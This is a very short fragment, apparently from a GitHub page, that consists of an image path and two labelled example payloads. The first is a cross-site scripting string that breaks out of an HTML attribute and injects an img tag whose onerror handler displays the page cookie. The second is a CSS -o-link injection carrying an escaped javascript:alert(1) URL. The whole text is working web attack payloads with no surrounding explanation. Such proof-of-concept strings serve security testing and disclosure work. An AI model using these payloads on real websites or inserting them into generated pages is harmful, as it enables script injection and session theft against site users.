 
Example payload 1:
```
"><img src="x" onerror="prompt(cookie)">
```

Example Payload 2:
```
#red;-o-link:\u0027\u003Cjavascript:alert(1)\u003E\u0027;-o-link-source:current; testit`
```
